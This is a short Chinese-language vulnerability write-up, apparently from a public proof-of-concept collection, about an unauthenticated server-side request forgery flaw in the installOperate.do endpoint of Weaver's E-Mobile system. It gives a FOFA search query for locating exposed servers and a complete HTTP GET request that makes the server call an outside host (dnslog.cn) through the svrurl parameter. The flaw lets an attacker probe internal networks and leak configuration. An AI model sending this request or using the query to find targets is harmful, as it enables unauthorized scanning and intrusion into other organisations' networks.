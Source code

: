 # 泛微E-Mobile系统接口installOperate.do存在SSRF漏洞

泛微E-Mobile installOperate.do 接口处存在服务器请求伪造漏洞，未经身份验证的远程攻击者利用此漏洞扫描服务器所在的内网或本地端口，获取服务的banner信息，窥探网络结构，甚至对内网或本地运行的应用程序发起攻击，获取服务器内部敏感配置，造成信息泄露。

## fofa

```yaml
header="EMobileServer"
```

## poc

```yaml
GET /install/installOperate.do?svrurl=http://dnslog.cn HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407232013270.png)